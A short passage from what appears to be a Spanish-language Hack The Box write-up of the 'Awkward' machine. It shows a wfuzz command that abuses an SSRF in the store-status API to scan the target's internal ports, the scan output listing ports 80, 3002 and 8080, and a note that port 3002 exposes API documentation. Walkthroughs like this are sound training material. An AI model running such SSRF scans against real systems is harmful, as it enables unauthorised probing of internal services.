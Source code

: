 Ahora nos podemos aprovechar de un SSRF para apuntar a puertos locales de la propia máquina y fuzzearlos

```shell
❯ wfuzz -c --hh=0 -t 200 -z range,1-10000 -u 'http://hat-valley.htb/api/store-status?url="http://localhost:FUZZ"'
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://hat-valley.htb/api/store-status?url="http://localhost:FUZZ"
Total requests: 10000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000080:   200        8 L      13 W       132 Ch      "80"                                                                                                                   
000003002:   200        685 L    5834 W     77002 Ch    "3002"                                                                                                                 
000008080:   200        54 L     163 W      2881 Ch     "8080"  
```

Vemos el puerto 3002, al visitarlo (por el SSRF), podemos ver la documentación de la API

![](/assets/img/HTB/Awkward/api.png)
